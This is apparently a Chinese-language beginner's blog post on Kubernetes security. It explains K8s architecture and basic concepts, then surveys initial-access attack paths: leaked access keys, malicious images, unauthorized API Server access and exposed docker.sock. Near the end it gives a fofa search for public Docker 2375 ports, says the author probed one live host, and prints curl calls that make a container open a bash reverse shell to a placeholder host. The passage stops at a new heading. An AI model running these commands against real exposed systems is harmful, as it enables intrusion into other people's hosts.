## K8s安全入门学习扫盲贴

- - -

## [0x00 云](#toc_0x00)

> 云的定义看似模糊，但本质上，它是一个用于描述全球服务器网络的术语，每个服务器都有一个独特的功能。云不是一个物理实体，而是一个庞大的全球远程服务器网络，它们连接在一起，旨在作为单一的生态系统运行。这些服务器设计用于存储和管理数据、运行应用程序，或者交付内容/服务（如视频短片、Web 邮件、办公室生产力软件或社交媒体）。不是从本地或个人计算机访问文件和数据，而是通过任何支持 Internet 的设备在线访问 - 这些信息在必要时随时随地可用。
> 
> 企业采用 4 种不同的方法部署云资源。存在一个[公有云](https://azure.microsoft.com/zh-cn/overview/what-is-a-public-cloud/)，它通过 Internet 共享资源并向公众提供服务；一个[私有云](https://azure.microsoft.com/zh-cn/overview/what-is-a-private-cloud/)，它不进行共享且经由通常本地托管的私有内部网络提供服务；一个[混合云](https://azure.microsoft.com/zh-cn/overview/what-is-hybrid-cloud-computing/)，它根据其目的在公有云和私有云之间共享服务；以及一个社区云，它仅在组织之间（例如与政府机构）共享资源。

《云是什么- 定义 - Microsoft Azure》

## [0x01 何为k8s ？](#toc_0x01-k8s)

k8s即Kubernetes。  
其为google开发来被用于容器管理的开源应用程序，可帮助创建和管理应用程序的容器化。  
用一个的例子来描述："当虚拟化容器Docker有太多要管理的时候，手动管理就会很麻烦，于是我们便可以通过k8s来简化我们的管理"

## [K8S 架构简述](#toc_k8s)

我们在上文已经知道，K8S是用于管理虚拟化容器的一个应用系统，在这小节中会着重讲述K8S的架构、实现原理。

下图为K8S架构的概览：

[](https://storage.tttang.com/media/attachment/2022/03/12/d5769347-1a89-4240-8c19-496c08a2a60a.png)

k8s主要由较少的master节点以及其对应的多个Node节点组成。master用于对Node节点进行控制管理，一个k8s集群中至少要有一台master节点。

Master节点中包含很多的组件，主要为如下

> *etcd*  
> 它存储集群中每个节点可以使用的配置信息。它是一个高可用性键值存储，可以在多个节点之间分布。只有Kubernetes API服务器可以访问它，因为它可能具有一些敏感信息。这是一个分布式键值存储，所有人都可以访问。  
> 简而言之：存储节点信息

*API server*  
Kubernetes是一个API服务器，它使用API在集群上提供所有操作。API服务器实现了一个接口，这意味着不同的工具和库可以轻松地与其进行通信。Kubeconfig是与可用于通信的服务器端工具一起的软件包。它公开了Kubernetes API  
简而言之：读取与解析请求指令的中枢

*Controller Manage*  
该组件负责调节群集状态并执行任务的大多数收集器。通常，可以将其视为在非终止循环中运行的守护程序，该守护程序负责收集信息并将其发送到API服务器。它致力于获取群集的共享状态，然后进行更改以使服务器的当前状态达到所需状态。关键控制器是复制控制器，端点控制器，名称空间控制器和服务帐户控制器。控制器管理器运行不同类型的控制器来处理节点，端点等。  
简而言之：维护k8s资源

*Scheduler*  
这是Kubernetes master的关键组件之一。它是主服务器中负责分配工作负载的服务。它负责跟踪群集节点上工作负载的利用率，然后将工作负载放在可用资源上并接受该工作负载。换句话说，这是负责将Pod分配给可用节点的机制。调度程序负责工作负载利用率，并将Pod分配给新节点。  
简而言之：负载均衡调度器

Node节点也包含了很多组件，主要如下

> Docker  
> Docker引擎，运行着容器的基础环境

kubelet  
在每个node节点都存在一份，主要来执行关于资源操作的指令，负责pod的维护。

kube-proxy  
代理服务，用于负载均衡，在多个pod之间做负载均衡

fluentd  
日志收集服务

pod  
pod是k8s的最小服务单元，pod内部才是容器，k8s通过操作pod来操作容器。一个Node节点可以有多个Pod

Pod可以说是Node节点中最核心的部分，Pod也是一个容器，它是一个"用来封装容器的容器"。一个Pod中往往会装载多个容器，这些容器共用一个虚拟环境，共享着网络和存储等资源。  
这些容器的资源共享以及相互交互都是由pod里面的pause容器来完成的，每初始化一个pod时便会生成一个pause容器。

[](https://storage.tttang.com/media/attachment/2022/03/12/f4a12925-600f-42b5-b2f9-132bbf80dd08.png)

## [搭建K8S](#toc_k8s_1)

我是跟着这个文章来的，K8S搭建很繁琐。。。

[https://www.updateweb.cn/zwfec/item-367.html](https://www.updateweb.cn/zwfec/item-367.html)

## [K8S的基础概念](#toc_k8s_2)

ref:[https://kuboard.cn/learning/](https://kuboard.cn/learning/)(非常好的中文教程)

[https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/](https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/)(k8s官方教程，有交互式操作界面，稍微有点不好的是有些地方没有中文)

### [部署——Deployment](#toc_deployment)

k8s中的应用程序是通过 Deployment来部署的，Deployment来指导k8s完成应用程序的部署和更新维护。  
比如说，当Deployment在部署应用时，master节点会选择最合适的节点创建包含相应Container（容器）的POD  
又比如说，Deployment会监控应用程序实例，当运行应用程序的工作节点宕机时，它将会在判断集群中最适宜重新部署的工作节点，并在其上面重新创建新的实例（新创建的应用程序的POD ip和pod名会与之前的不同）。

[](https://storage.tttang.com/media/attachment/2022/03/12/8dc81e35-b7a6-4d5e-9f6d-4a1ff8841dfb.png)

相关命令：

```plain
# 查看 Deployment
kubectl get deployments

# 查看 Pod
kubectl get pods

#根据yaml文件部署
kubectl apply -f nginx-deployment.yaml


一个yaml文件差不多就长这样
apiVersion: apps/v1  #与k8s集群版本有关，使用 kubectl api-versions 即可查看当前集群支持的版本
kind: Deployment  #该配置的类型，我们使用的是 Deployment
metadata:          #译名为元数据，即 Deployment 的一些基本属性和信息
  name: nginx-deployment  #Deployment 的名称
  labels:      #标签，可以灵活定位一个或多个资源，其中key和value均可自定义，可以定义多组，目前不需要理解
    app: nginx  #为该Deployment设置key为app，value为nginx的标签
spec:          #这是关于该Deployment的描述，可以理解为你期待该Deployment在k8s中如何使用
  replicas: 1  #使用该Deployment创建一个应用程序实例
  selector:      #标签选择器，与上面的标签共同作用，目前不需要理解
    matchLabels: #选择包含标签app:nginx的资源
      app: nginx
  template:      #这是选择或创建的Pod的模板
    metadata:  #Pod的元数据
      labels:  #Pod的标签，上面的selector即选择包含标签app:nginx的Pod
        app: nginx
    spec:      #期望Pod实现的功能（即在pod中部署）
      containers:  #生成container，与docker中的container是同一种
      - name: nginx  #container的名称
        image: nginx:1.7.9  #使用镜像nginx:1.7.9创建container，该container默认80端口可访问
```

### [POD与Node](#toc_podnode)

[](https://storage.tttang.com/media/attachment/2022/03/12/c8929095-2405-4c2b-9f8e-90ef45e5b070.png)

一个POD可以包含多个容器，这些容器共享着POD上的资源（如网络IP，存储空间等）  
POD是集群上最基础的单元  
每个POD对与其对应的节点Node绑定，一个POD对应着一个IP。

[](https://storage.tttang.com/media/attachment/2022/03/12/707fb2f7-83d4-443f-87e2-9694c2b58a15.png)

Pod需要在Node上运行，一个Node可以运行着多个Pod，一个Node对应着集群中的一台机器。  
Node节点由Master节点统一管理，Master会根据各Node的资源可用程度自动调度Pod到不同的Node上。

再来说说Node

一个节点的状态大致有以下的东西

-   Addresses
-   Conditions
-   Capacity and Allocatable
-   Info

> 地址

-   HostName：由节点的内核设置。可以通过 kubelet 的 —hostname-override 参数覆盖。
-   ExternalIP：通常是节点的可外部路由（从集群外可访问）的 IP 地址。
-   InternalIP：通常是节点的仅可在集群内部路由的 IP 地址。

> 状况(conditions 字段描述了所有 Running 节点的状态)

-   Ready 如节点是健康的并已经准备好接收 Pod 则为 True；False 表示节点不健康而且不能接收 Pod；Unknown 表示节点控制器在最近 node-monitor-grace-period 期间（默认 40 秒）没有收到节点的消息
-   DiskPressure为True则表示节点的空闲空间不足以用于添加新 Pod, 否则为 False
-   MemoryPressure为True则表示节点存在内存压力，即节点内存可用量低，否则为 False
-   PIDPressure为True则表示节点存在进程压力，即节点上进程过多；否则为 False
-   NetworkUnavailable为True则表示节点网络配置不正确；否则为 False

> 容量与可分配

-   描述节点上的可用资源：CPU、内存和可以调度到节点上的 Pod 的个数上限。

> 信息

-   关于节点的一般性信息，例如内核版本、Kubernetes 版本（kubelet 和 kube-proxy 版本）、 Docker 版本（如果使用了）和操作系统名称。这些信息由 kubelet 从节点上搜集而来。  
    相关命令

```plain
#获取类型为Pod的资源列表
kubectl get pods

#获取类型为Node的资源列表
kubectl get nodes

# kubectl describe 资源类型 资源名称

#查看名称为nginx-XXXXXX的Pod的信息
kubectl describe pod nginx-XXXXXX  

#查看名称为nginx的Deployment的信息
kubectl describe deployment nginx  


#查看名称为nginx-pod-XXXXXXX的Pod内的容器打印的日志
kubectl logs -f podname

#在Pod中运行命令
kubectl exec -it nginx-pod-xxxxxx /bin/bash
```

### [服务——Service](#toc_service)

通过以上内容我们知道，应用程序所在的Pod是一直变动着的，而每个Pod的ip又不一样，但是对于前端用户来说，应用程序的访问地址应该是唯一的才行。  
因此k8s提供了一个机制用来为前端屏蔽后端Pod变动带来的IP变动，这便是Service。  
Service为一系列有相同特征的Pod（一个应用的Pod在不停变换，但是不论怎么变换这些Pod都有相同的特征）定义了一个统一的访问方式，  
Service是通过标签选择器（**LabelSelector**）来识别有哪些Pod有相同特征（带有特定Lable标签的POD，Lable可以由用户设置，标签存在于所有K8S对象上并不仅仅局限于Pod） 可以编成一个容器组的。  
Service有三种选项暴露应用程序的入口，可以通过设置应用程序配置文件中的Service 项的spec.type 值来调整

-   **ClusterIP**（默认）  
    在群集中的内部IP上公布服务，这种方式的 Service（服务）只在集群内部可以访问到
-   **NodePort**  
    使用 NAT 在集群中每个的同一端口上公布服务。这种方式下，可以通过访问集群中任意节点+端口号的方式访问服务 `<NodeIP>:<NodePort>`。此时 ClusterIP 的访问方式仍然可用。
-   **LoadBalancer**  
    在云环境中（需要云供应商可以支持）创建一个集群外部的负载均衡器，并为使用该负载均衡器的 IP 地址作为服务的访问地址。此时 ClusterIP 和 NodePort 的访问方式仍然可用。

[](https://storage.tttang.com/media/attachment/2022/03/12/c68b0e10-afc6-462b-a837-c16b5af11e12.png)

如上图，Service A 会将请求转发至内部IP地址为10.10.10.1 的POD上，Service B同理，会转发到10.10.10.3、4、5 上

在每个节点上都有Kube-proxy服务，Service使用其将链接路由到Pod

### [伸缩——Scaling](#toc_scaling)

可以通过更改deployment配置文件中的replicas项来设置开启的POD数量  
当流量增多导致应用程序POD负载加重后可以通过修改replicas增加POD数量来减轻负担，访问流量将会通过负载均衡在多个POD之间转发

### [滚动更新——**Rolling Update**](#toc_rolling-update)

当我们想对已经部署的程序进行升级更新，但又不想让程序停止，就可以使用滚动更新来实现。

滚动更新通过使用新版本的POD逐步替代旧版本POD来实现零停机更新

滚动更新是K8S默认的更新方式

## [0x02 K8S安全](#toc_0x02-k8s)

下图是K8S的一些攻击框架

[](https://storage.tttang.com/media/attachment/2022/03/12/a63415e1-5986-475b-bd0a-2c1fc1e0c0f0.png)

[](https://storage.tttang.com/media/attachment/2022/03/12/cd00f514-1da9-41f0-a224-eb6a106b2247.png)

本文就围绕着这个框架，叙述一些有用的攻击手法吧

## [初始访问](#toc_)

### [云账号AK泄露](#toc_ak)

在如今的云的大环境下，许多业务代码想要与云服务进行通信，就需要通过accesskey这个东西进行鉴权，鉴权通过后才能与云服务进行通信。  
通俗来讲，人想要访问一个服务，往往需要提供密码来进行身份验证；而代码想要访问一个云服务API，则需要提供accesskey来进行身份验证。  
如果accesskey泄露了，我们便可以利用这个accesskey来与云服务通信，反弹个云主机的shell回来作为入口点慢慢往内打。

下面文章是关于云原生安全中accesskey安全更加详细的论述，阅读后可以对accesskey的概念有更深入的了解。

[https://www.freebuf.com/articles/web/287512.html](https://www.freebuf.com/articles/web/287512.html)

[https://www.freebuf.com/articles/web/255717.html](https://www.freebuf.com/articles/web/255717.html)

### [恶意镜像](#toc__1)

在docker中，容器的建立依赖于镜像，如果而如果pull得到的镜像是一个恶意镜像，或者pull得到的镜像本身就存在安全漏洞，便会带来安全风险

下图便是dockerhub上部署挖矿软件的恶意镜像，它会从github上下载恶意挖矿软件进行挖矿  
个人觉得此方法多用于钓鱼？

[](https://storage.tttang.com/media/attachment/2022/03/12/0d7cdee5-e885-4a93-9b20-436746b7a1fa.png)

### [API Server未授权](#toc_api-server)

属于是K8S中的经典漏洞了

回顾一下API Server的作用，它在集群中被用于提供API来控制集群内部，如果我们能控制API Server，就意味着我们可以通过它利用kubectl创建Pod并使用磁盘挂载技术获取Node节点控制权(关于磁盘挂载获取节点shell的技术在后面的小节中再进行详细论述）。

API Server可以在两个端口上提供了对外服务：8080（insecure-port，非安全端口）和6443（secure-port，安全端口），其中8080端口提供HTTP服务且无需身份认证，6443端口提供HTTPS服务且支持身份认证(8080和6443端口并不是固定的，是通过配置文件来控制的)。

#### [insecure-port 开启](#toc_insecure-port)

API Server在8080端口上开放的服务应该是用于测试，但如果其在生存环境中被暴露出来，攻击者便可以利用此端口进行对集群的攻击。

但是利用API Server的8080端口进行未授权活动的前提条件略显苛刻（配置失当+版本较低），8080端口服务是默认不启动的，但如果用户在 `/etc/kubernets/manifests/kube-apiserver.yaml` 中有 `--insecure-port=8080`配置项，那就启动了非安全端口，有了安全风险。

注：1.20版本后该选项已无效化

[](https://storage.tttang.com/media/attachment/2022/03/12/299aa09e-5fd8-4a9f-ad98-fdceb248da93.png)

环境前提：

```plain
step1:进入cd /etc/kubernetes/manifests/

step2: 修改api-kube.conf

添加- -–insecure-port=8080
添加- -–insecure-bind-address=0.0.0.0

Kubelet 会监听该文件的变化，当您修改了 /etc/kubernetes/manifests/kube-apiserver.yaml 文件之后,
kubelet 将自动终止原有的 kube-apiserver-{nodename} 的 Pod，并自动创建一个使用了新配置参数的 Pod 作为替代。
```

[](https://storage.tttang.com/media/attachment/2022/03/12/dd05774d-b504-4442-a059-e78a723ede13.png)

#### [secure-port 配置错误](#toc_secure-port)

若我们不带任何凭证的访问 API server的 secure-port端口，默认会被服务器标记为system:anonymous用户。  
一般来说system:anonymous用户权限是很低的，但是如果运维人员管理失当，吧system:anonymous用户绑定到了cluster-admin用户组，那么就意味着secure-port允许匿名用户以管理员权限向集群下达命令。（也就是secure-port变成某种意义上的insecure-port了）

复现：

```plain
kubectl -s https://192.168.111.20:6443/ --insecure-skip-tls-verify=true get nodes  (192.168.111.20:6443 是master节点上apiserver的secure-port)
然后提示输入账户密码，随便乱输就行
```

正常情况应该是这样

[](https://storage.tttang.com/media/attachment/2022/03/12/a3dd20ae-f6ec-437d-a14e-baad98a5f3ec.png)

但如果secure-port 配置失当出现了未授权，就会这样

[](https://storage.tttang.com/media/attachment/2022/03/12/b175c841-06d2-486a-b7db-c088bb522968.png)

### [configfile 泄露](#toc_configfile)

k8s configfile配置文件中可能会有api-server登陆凭证等敏感信息，如果获取到了集群configfile内容（如泄露在github），将会对集群内部安全造成巨大影响。

这里引用阿里云社区的一张图

[](https://storage.tttang.com/media/attachment/2022/03/12/06713405-46d3-4868-8daf-f19265b799c8.png)

### [容器内部应用入侵](#toc__2)

顾名思义，容器内部应用就有问题（比如内部应用是tomcat，且有RCE漏洞），从而就会导致黑客获取Pod shell，拿到入口点

### [私有镜像库暴露](#toc__3)

举个例子，如果一个企业它的许多云上应用都是用的自建的私有镜像搭建的，有一天它私有镜像泄露出来了，我们就可以通过审计等手段去挖掘私有镜像中的漏洞，造成供应链打击。

### [docker.sock 利用](#toc_dockersock)

Docker以server-client的形式工作，服务端叫Docker daemon，客户端叫docker client。  
Docker daemon想调用docker指令，就需要通过docker.sock这个文件向docker client进行通讯。换句话说，Docker daemon通过docker.sock这个文件去管理docker容器（如创建容器，容器内执行命令，查询容器状态等）。  
同时，Docker daemon也可以通过配置将docker.sock暴露在端口上，一般情况下2375端口用于未认证的HTTP通信，2376用于可信的HTTPS通信。

#### [公网暴露](#toc__4)

如果docker daemon 2375端口暴露在了公网上，那么便可以直接利用该端口控制docker容器，并通过新建容器配合磁盘挂载技术获取宿主机权限。

fofa搜索

```plain
server="Docker" && port="2375"
```

可以发现有很多暴露在公网的docker.sock，

[](https://storage.tttang.com/media/attachment/2022/03/12/f674af83-725e-46c4-bc14-fb7cd4b655f8.png)

我们选一个来试试水

可以发现是成功的调用了API查询了容器状态

[](https://storage.tttang.com/media/attachment/2022/03/12/6ac4bf7b-e165-41fd-97e2-a66b6dab57ef.png)

然后我们可以通过如下指令，在指定容器内部执行命令

```plain
curl -X POST "http://ip:2375/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'
```

获取到一个id

[](https://storage.tttang.com/media/attachment/2022/03/12/b9dc7fba-24e1-49ca-b668-96fa7e8669ee.png)

然后请求这个id,执行此命令

```plain
curl -X POST "http://ip:2375/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

就像这样：（图片引用自freebuf）

[](https://storage.tttang.com/media/attachment/2022/03/12/d4fbd137-2fbf-413c-858b-3f2db625760e.png)

#### [直接利用现成的docker.sock](#toc_dockersock_1)

